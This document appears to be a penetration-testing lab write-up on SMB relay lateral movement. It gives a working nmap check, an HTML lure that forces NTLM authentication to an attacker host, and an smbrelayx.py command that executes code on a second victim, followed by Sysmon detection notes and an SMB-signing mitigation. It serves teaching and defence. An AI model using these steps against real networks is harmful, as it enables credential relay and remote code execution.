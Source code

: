 # Lateral Movement via SMB Relaying

This lab looks at a lateral movement technique abusing SMB protocol if SMB signing is disabled.&#x20;

SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.

If SMB signing is disabled, howeverm packets can be intercepted/modified and/or relayed to another system, which is what this lab is about.

## Environment

* 10.0.0.5 - attacker running Kali linux and smb relaying tool
* 10.0.0.2 - victim1; their credentials will be relayed to victim2
* 10.0.0.6 - victim2; code runs on victim2 with victim1 credentials

{% hint style="warning" %}
Credentials from Victim1 must be for a local admin on Victim2 or be a member of Administrators/Domain Administrators group for this attack to work successfully.
{% endhint %}

Below is a simplified process of how this attack works:

`10.0.0.2` -authenticates to-> `10.0.0.5` -relays to-> `10.0.0.6` executes code with victim1(10.0.0.2) credentials

## Execution

One of the ways to check if SMB signing is `disabled` on an endpoint:

{% code title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-31 10-45-27.png>)

Since we know that victim2@10.0.0.6 has SMB signing disabled and is vulnerable to SMB relaying attack, let's create a simple HTML file that once opened will force the victim1 to authenticate to attacker's machine:

{% code title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
{% endcode %}

{% hint style="info" %}
Any other forced authentication method will also work - follow below link for a list of techniques.
{% endhint %}

{% content-ref url="../initial-access/t1187-forced-authentication.md" %}
[t1187-forced-authentication.md](../initial-access/t1187-forced-authentication.md)
{% endcontent-ref %}

...at the same time, let's fire up SMBRelayx tool that will listen for incoming SMB authentication requests and will relay them to victim2@10.0.0.6 and will attempt to execute a command `ipconfig`on the end host:

{% code title="attacker@kali" %}
```
smbrelayx.py -h 10.0.0.6 -c "ipconfig"
```
{% endcode %}

{% hint style="info" %}
Note that smbrelayx could be used with a `-e` switch that allows attacker to execute their payload file - say, a meterpreter executable.
{% endhint %}

Below is a gif showing the technique in action - on the left - `victim1@10.0.0.2` opening the malicious html we crafted earlier that forces it to attempt to authenticate to the attacker system (on the right). Once the authentication attempt comes in, it gets relayed to `victim2@10.0.0.6` and ipconfig gets executed:

![](<../../.gitbook/assets/Peek 2018-12-30 22-31.gif>)

A stop frame from the above gif that highlights that the code execution indeed happend on 10.0.0.6:

![](<../../.gitbook/assets/Screenshot from 2018-12-30 22-33-59.png>)

## Observations & Mitigation

Smbrelayx.py leaves a pretty good footprint for defenders in Microsoft-Windows-Sysmon/Operational - the parent image is services.exe and the commandline has juicy details - note though that the commandline arguments are subject to forgery:

![](<../../.gitbook/assets/Screenshot from 2018-12-31 13-29-13.png>)

In order to mitigate this type of attack, the best way to do it is by implementing GPOs if possible by setting the policy **Microsoft network server: Digitally sign communications (always)** to `Enabled`:

![](<../../.gitbook/assets/Screenshot from 2018-12-31 10-36-45.png>)

With the above change, trying to execute the same attack, we get `Signature is REQUIRED` errors message and lateral movement is prevented:

![](<../../.gitbook/assets/Screenshot from 2018-12-30 22-36-01.png>)

The same nmap scan we did earlier now also shows that the `message signing is required`:

{% code title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-31 11-05-59.png>)

## References

{% embed url="https://ramnathshenoy.wordpress.com/2017/03/19/lateral-movement-with-smbrelayx-py/" %}

{% embed url="https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/" %}

{% embed url="https://nmap.org/nsedoc/scripts/smb-security-mode.html" %}


